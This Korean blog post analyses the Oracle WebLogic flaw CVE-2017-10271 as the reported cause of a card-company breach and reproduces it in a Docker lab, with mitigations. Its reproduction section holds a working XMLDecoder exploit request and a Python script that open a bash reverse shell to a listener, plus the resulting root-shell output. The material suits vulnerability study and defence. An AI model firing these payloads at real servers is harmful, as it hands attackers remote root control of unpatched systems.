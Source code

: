 ```yaml
---
title: 롯데카드 해킹 - CVE-2017-10271
date: 2025-09-13
author: glasses96
categories: [WEB]
tags: [CVE-2017-10271,Weblogic]
pin: true
math: false
mermaid: true
---
```


> **롯데카드 해킹 사고 원인으로 밝혀진 CVE-2017-10271에 대해 알아봅시다.**   
> **취약점 재현을 통해 어떻게 공격이 들어오는지 알아봅시다.**  
{: .prompt-info }

## CVE-2017-10271
[CVE-2017-10271]("https://nvd.nist.gov/vuln/detail/cve-2017-10271")은 `Oracle WebLogic Server `에서 발견된 취약점으로 공격자에게 RCE를 실행할 수 있는 취약점입니다.

## 취약점 매커니즘
이 취약점은 WebLogic Server의 WLS 웹 서비스 구성 요소에서 XML 처리 과정의 불충분한 입력값 검증으로 인해 발생합니다. 공격자는 특수하게 조작된 XML 요청을 통해 서버의 XML 파서를 속여 임의의 코드를 실행할 수 있습니다.  

구체적인 취약점 발생 과정은 다음과 같습니다.

1. 공격자는 WebLogic Server의 '/wls-wsat/CoordinatorPortType' 엔드포인트로 악의적인 XML 페이로드를 포함한 HTTP POST 요청을 전송합니다.
2. 이 XML 페이로드는 Apache XMLDecoder를 이용해 처리되는데, XMLDecoder는 Java 객체의 직렬화를 처리하는 과정에서 적절한 입력값 검증을 수행하지 않습니다.
3. 결과적으로 공격자는 서버 측에서 임의의 Java 코드를 실행할 수 있게 되어 전체 시스템을 장악할 수 있습니다.

## 취약점 상세 분석
[NSFOCUS]("https://nsfocusglobal.com/technical-analysis-and-solution-of-weblogic-server-wls-component-vulnerability/") 분석에 따르면 해당 취약점은 `CVE-2017-3506` 취약점의 패치에서 부터 시작됬습니다.  

CVE-2017-3506 취약점의 패치를 보면
`weblogic/wsee/workarea/WorkContextXmlInputAdapter.java 파일에 "validate" 메서드가 추가`되었습니다.  


![validate_function](/assets/post/73/1.Png)

해당 코드에서 XML 구문 분석 과정에서 `Element 필드 값이 Object 이면 예외가 발생`하는데 이 부분이 CVE-2017-10271이 발생하는 이유입니다.  
`new`, `method`, `void` 사용에 제한을 두지 않아 해당 패치 우회가 가능합니다.  
ex) `object` → `void` 변경 하는 방식이 일반적인 접근 방법, 역직렬화된 실행을 위해 키워드 `new`를 사용하여 PoC를 생성했습니다.  


XMLDecoder 파싱 과정에서 코드가 실행될 수 있는 이유를 동적 분석을 통해 살펴보면 `JdbcRowSetImpl` 인스턴스가 생성되고, 인스턴스의 `set`메서드가 호출되어 속성을 초기화 수행합니다.  
`setAutoCommit` 인터페이스가 호출된 후, 클래스가 원격으로 로드되고, `dataSourceName`값을 기반으로 초기화됩니다.   

![cve](/assets/post/73/2.png)
![cve2](/assets/post/73/3.png)
![cve3](/assets/post/73/4.png)

## Attack Senario
- 인증이 필요 없이 원격에서 취약한 WebLogic 서버를 대상으로 7001번 포트가 열린것을 확인 후 CVE 공격을 수행합니다.
- 웹 쉘을 업로드하거나 시스템 명령을 실행하여 서버에 지속적인 접근을 확보할 수 있습니다.
- 서버 장악 후 내부 네트워크로의 피벗 포인트로 활용하거나 추가 공격을 위한 발판으로 사용할 수 있습니다.

## Mitigation
이 취약점에 대한 주요 대응 방안은 다음과 같습니다:

- **패치 적용**: Oracle에서 제공하는 보안 패치(Critical Patch Update)를 즉시 적용합니다.
- **WAF 구성**: 웹 애플리케이션 방화벽을 구성하여 '/wls-wsat' 경로로 들어오는 악의적인 요청을 차단합니다.
- **네트워크 분리**: WebLogic 관리 인터페이스를 인터넷에 직접 노출시키지 않도록 네트워크를 분리합니다.
- **최소 권한 원칙**: WebLogic Server가 최소한의 필요한 권한으로만 실행되도록 구성합니다.

이 취약점은 2017년 발견된 이후 많은 공격에 활용되었으며, 특히 랜섬웨어나 암호화폐 채굴 공격에 널리 사용되었습니다.  
따라서 해당 버전의 WebLogic Server를 사용하는 조직은 즉시 보안 패치를 적용하는 것이 중요합니다.


패치 코드르 보면 `object` , `new`, `method`, `void` , `array`등의 필드 사용을 제한하는 것으로 수정되었습니다.
![patch](/assets/post/73/5.png)

## 취약점 재현
### Docker 

`docker-compose.yml` 만들어서 `docker-compose up -d ` 도커 실행
```
services:
 weblogic:
   image: vulhub/weblogic:10.3.6.0-2017
   ports:
    - "7001:7001"
```

### PoC Code

`POST Data` <string>에 명령 실행 구문을 넣어 RCE가 가능함
```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
### PoC 
python 코드를 통해 Reverse Shell 명령을 통해 서버을 장악
```py
import requests

URL = "http://localhost:7001"
PATH = "/wls-wsat/CoordinatorPortType"

data = """
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.0.2/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
"""

res = requests.post(URL + PATH, data=data, headers={"Content-Type": "text/xml"})
print(res.status_code)
```

### Result

```sh
Nmap>ncat.exe -lnvp 9999
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.0.2.
Ncat: Connection from 192.168.0.2:13975.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@fa0d735d5121:~/Oracle/Middleware/user_projects/domains/base_domain# whoami
<Middleware/user_projects/domains/base_domain# whoami
root
root@fa0d735d5121:~/Oracle/Middleware/user_projects/domains/base_domain#
```

## Another Attack Point
해당 취약점은 `/wls-wsat/CoordinatorPortType`경로 이외에도 [취약한 경로]("https://github.com/kkirsche/CVE-2017-10271?tab=readme-ov-file")가 존재합니다.  
다만 공격 형태의 패턴을 보면 `/wis-wsat`를 통해 공격하는 부분은 같습니다.  

```
/wls-wsat/CoordinatorPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/ParticipantPortType
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/RegistrationRequesterPortType11
```

## Conclusion
뉴스 기사를 접하면서 `CVE-2017-10271` 외부에서 공격이 성공 할려면 `oracle weblogic` 서버의 WAS 포트(`7001`)를 접근해야 가능한데 내부 설정 미스인지, DMZ에 해당 서버가 올라가있는지에 대해서는 아직 밝혀진게 없어 추후에 공개된다면 더 자세하게 작성해야겠습니다.  

요즘 들어 금융, 통신등 다양한 분야에서 해킹 사고가 계속 발생하는데 기업에선 보안에 예산을 사용하는 건 비용이 아닌 투자로 인식이 변화되었으면 하는 바램입니다.    
